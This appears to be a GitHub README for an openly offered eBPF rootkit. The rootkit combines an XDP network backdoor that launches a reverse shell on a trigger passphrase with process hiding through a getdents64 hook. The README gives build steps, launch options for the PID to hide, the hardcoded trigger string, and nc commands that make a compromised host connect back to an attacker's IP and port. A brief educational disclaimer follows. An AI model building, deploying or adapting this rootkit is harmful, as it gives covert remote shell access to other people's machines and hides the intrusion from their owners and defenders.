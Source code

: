 # eBPF-rootkit

This repository contains an eBPF rootkit that combines 2 main functions:

Backdoor for remote access - uses `XDP` (eXpress Data Path) to monitor network traffic and launch a reverse shell when detecting a specific pattern in packets.

Process Hiding - uses eBPF programs attached to the `getdents64` system call to hide specific processes from tools like `ps`, `htop`, `ls` etc.

The process hiding part is taken from the [bad-bpf repository](https://github.com/pathtofile/bad-bpf/), but the loader has been rewritten in Go.

## Dependencies
To build and run the project, you will need:

* Go (version 1.16+)
* Clang and LLVM (for compiling eBPF programs)
* Linux kernel header files
* Cilium eBPF library for Go

```bash
# Installing dependencies on Ubuntu/Debian:

sudo apt update  
sudo apt install -y clang llvm libbpf-dev linux-headers-$(uname -r)  
go get github.com/cilium/ebpf

# Building and Running

git clone https://github.com/cotsom/eBPF-rootkit.git  
cd eBPF-rootkit
go generate
go build -o ebpf-rootkit
```

Run with root privileges:

```bash
./ebpf-rootkit [options]
Launch Options:
-p <PID> - PID of the process to hide (default: PID of the program itself)
-t <PPID> - Parent PID, will only affect its child processes
-i <interface> - Network interface to attach the XDP program to (default: eth0)
```

## Changing the Passphrase for the Reverse Shell
For now the passphrase that triggers the reverse shell is `lolkek`

```go
dataStr := string(data)
if strings.Contains(dataStr, "lolkek") {
    log.Printf("XDP: Found 'lolkek' trigger in packet data: %q", dataStr)
    parts := strings.Fields(dataStr)

....
```

To change the passphrase, replace the string `lolkek` with your own phrase. This phrase is used as a trigger to launch the reverse shell.

After changing the passphrase, you need to rebuild the project:

`go build -o ebpf-rootkit`

To launch the reverse shell, send a TCP packet containing your passphrase followed by the IP address and port to connect to, for example:

```bash
nc 192.168.1.100 22 # connect to victim machine with backdoor to any open port

# send command to nc
lolkek 192.168.1.200 4444
```

### Disclaimer
This tool is intended for educational purposes and security research only. Using this tool on systems without proper authorization may be illegal.
